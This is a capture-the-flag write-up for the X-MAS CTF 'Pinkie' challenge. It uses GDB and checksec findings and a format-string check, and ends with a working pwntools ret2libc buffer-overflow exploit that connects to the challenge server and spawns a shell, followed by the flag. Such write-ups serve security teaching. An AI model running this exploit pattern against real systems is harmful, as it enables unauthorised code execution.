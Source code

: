 ## exploit

In this challenge we have to exploit ELF 32 bit not stripped executable that returns 2 gifts: 
```
Here are some gifts from Santa: 0x8049940 0xf7e48da0
```

With GDB we can notice that the first address refers to a bunch of bytes in `.bss` section:

```
info symbol 0x8049940

section .bss of /home/vagrant/share/xmasCTF/Pinkie/pinkiegift.dms

gdb-peda$ x/40wx 0x8049940
0x8049940 <binsh>   :	0x00000000	0x00000000	0x00000000	0x00000000
0x8049950 <binsh+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049960 <binsh+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049970 <binsh+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049980 <binsh+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049990 <binsh+80>:	0x00000000	0x00000000	0x00000000	0x00000000
0x80499a0 <binsh+96>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Normally the `bss` section is not executable, it could be useful in order to place some shellcode but require a previous call to `mprotect` to execute that, or I could write with `gets` or other libc function some bytes and obtain all strings I need. 

The second gift is a real gift! An address to libc `system` procedure. So now i could try to search in `text` or `data` or `bss` section (not affected by ASLR) an `sh` strings and exploit executable without using the first gift. Moreover we can notice from the output of remote program, that ASLR is enabled.

Ok now I only have to figure out where vulnerability is, with checksec we can see the following:

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

We've got no canary, and after executing program with ltrace I can notice that, after printing the gifts, it perform a gets followed by printf and another gets.

The printf output exactly what inserted with the first gets and here we have a format string vulnerability:

```
Here are some gifts from Santa: 0x8049940 0xf7de8850
%x
a7825
```
So we could for instance try to write printf GOT entry in order to call system instead of printf but I considered that: 

* No checks boundary are performed after gets
* The absence of canary permit to perform ret2libc to system passing `sh` string as argument

The exploit:

```python
#!/usr/bin/env python3
from pwn import *

r=remote('199.247.6.180', 10006)
out=r.recvuntil('\n')
print(out)
addr_system=out.split()[-1]
addr_bin_sh=out.split()[-2]
print(addr_system)
r.send(b"I DON\'T NEED THIS GIFT"+b"\n")
r.send(p32(int(addr_system,16))*36+p32(0x8048f48)+b"\n")
r.interactive()

r.close()
```
##### flag: X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}




